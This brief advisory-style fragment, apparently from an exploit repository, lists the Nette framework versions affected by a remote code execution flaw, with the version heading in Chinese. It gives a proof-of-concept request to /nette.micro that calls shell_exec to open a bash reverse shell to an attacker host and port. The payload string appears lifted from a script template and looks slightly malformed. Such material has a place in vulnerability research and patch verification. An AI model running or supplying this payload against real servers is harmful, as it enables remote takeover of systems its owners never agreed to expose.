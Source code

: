影響版本：
----------

Nette versions before 2.0.19, 2.1.13, 2.2.10, 2.3.14, 2.4.16, 3.0.6

POC：
-----

` /nette.micro?callback=shell_exec&cmd=bash%20-i%20>&%20/dev/tcp/'+lhost+'/'+lport+'0>&1`